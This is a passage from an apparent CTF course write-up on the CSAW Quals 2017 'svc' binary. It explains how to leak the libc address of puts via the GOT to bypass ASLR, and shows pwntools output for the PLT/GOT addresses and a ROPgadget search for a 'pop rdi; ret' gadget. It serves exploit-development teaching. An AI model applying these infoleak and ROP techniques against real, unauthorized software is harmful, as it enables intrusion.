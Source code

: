 So we can see all of the memory regions here. The memory region I am going to break ASLR in is the `libc-2.23.so` region starting at `0x00007ffff768b000` and ending at `0x00007ffff784b000`. There are two resons for this. The first is that if we leak an address in this region, it will give us access to a lot of gadgets so we can do a lot of things with our code. The second is that we can get an infoleak in this region. Looking at the imported functions in Ghidra, we can see that `puts` is an imported function. Puts will print the data pointed to by a pointer it is handed, until it reaches a null byte. The GOT table is a section of memory in the elf that holds various libc addresses. It does this so the binary knows where it can find those addresses, since it doesn't know what they will be when it compiles. Since PIE is disabled, the GOT entry addresses aren't randomized and we know what they are. So if we were to pass the GOT entry address for `puts` to `puts` (which we can call since it is an imported function, meaning it is compiled into the binary, and we know it's address because there is no pie) we will get the libc address of `puts`. 

Also a quick tangent, pie (position independent executable) essentially means there is ASLR for addresses in the elf. For this binary that would include these regions. If this was enabled and we wanted to do what we are doing with the `puts` infoleak, we would need another infoleak in this region:

```
0x0000000000400000 0x0000000000402000 0x0000000000000000 r-x /Hackery/course/content/ctf_course/modules/bof_dynamic/csawquals17_svc/svc
0x0000000000601000 0x0000000000602000 0x0000000000001000 r-- /Hackery/course/content/ctf_course/modules/bof_dynamic/csawquals17_svc/svc
0x0000000000602000 0x0000000000603000 0x0000000000002000 rw- /Hackery/course/content/ctf_course/modules/bof_dynamic/csawquals17_svc/svc
```

To do this infoleak, we will need three things. The plt address of `puts` (address of the imported function which we will use to call it), the address of the got entry of `puts` (holds the libc address), and a rop gadget to pop the got entry into the `rdi` register, and then return. Since `puts` expects it's input (a single char pointer) in the `rdi` register, that is where we need to place it. To find the `plt` and `got` addresses, we can just use pwntools:

```
$ python
Python 2.7.15rc1 (default, Nov 12 2018, 14:31:15) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> elf = ELF('svc')
[*] '/Hackery/course/content/ctf_course/modules/bof_dynamic/csawquals17_svc/svc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> print "plt address: " + hex(elf.symbols['puts'])
plt address: 0x4008cc
>>> print "got address: " + hex(elf.got['puts'])
got address: 0x602018
```

To find the rop gadget we need, we can use a ROP gadget finding utillity called ROPGadget (https://github.com/JonathanSalwan/ROPgadget):

```
$ python ROPgadget.py --binary svc | grep "pop rdi"
0x0000000000400ea3 : pop rdi ; ret
```
